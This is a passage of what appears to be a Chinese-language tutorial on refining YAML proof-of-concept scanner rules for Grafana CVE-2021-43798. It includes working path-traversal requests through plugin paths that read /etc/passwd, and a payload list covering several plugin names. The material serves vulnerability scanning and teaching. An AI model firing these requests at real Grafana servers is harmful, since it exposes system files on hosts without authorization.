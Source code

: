 ```yaml
        request:
            cache: true
            method: GET
            path: /public/plugins/barchart/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r7:
        ...
expression: |
    detect() && (r0() || r1() || r2() || r3() || r4() || r5() || r6() || r7() || r8() || r9() || r10() || r11() || r12() || r13() || r14() || r15() || r16() || r17() || r18() || r19() || r20() || r21() || r22() || r23() || r24() || r25() || r26() || r27() || r28() || r29() || r30() || r31() || r32() || r33() || r34() || r35() || r36() || r37() || r38() || r39() || r40() || r41() || r42() || r43() || r44() || r45() || r46() || r47() || r48() || r49() || r50() || r51() || r52() || r53() || r54() || r55() || r56() || r57() || r58() || r59() || r60() || r61() || r62() || r63() || r64() || r65() || r66() || r67() || r68() || r69() || r70() || r71() || r72() || r73() || r74() || r75() || r76() || r77() || r78() || r79())
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
通过添加这样的探测规则，即可规避多数发送无效包的情况。
#### 优化四
由于这个POC的规则绝大多数都是重复的内容，每个规则只有一点不同的地方，所以我们可以使用payload这个关键字对POC整体进行优化，提高POC的可读性
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread
transport: http
payloads:
    payloads:
        alertlistl:
            file: |
                "etc/passwd"
            plugin: |
                "alertlist"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        annolistl:
            file: |
                "etc/passwd"
            plugin: |
                "annolist"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        grafana-azure-monitor-datasourcel:
            file: |
                "etc/passwd"
            plugin: |
                "grafana-azure-monitor-datasource"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        barchartl:
            file: |
                "etc/passwd"
            plugin: |
                "barchart"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        bargaugel:
            file: |
                "etc/passwd"
            plugin: |
                "bargauge"
```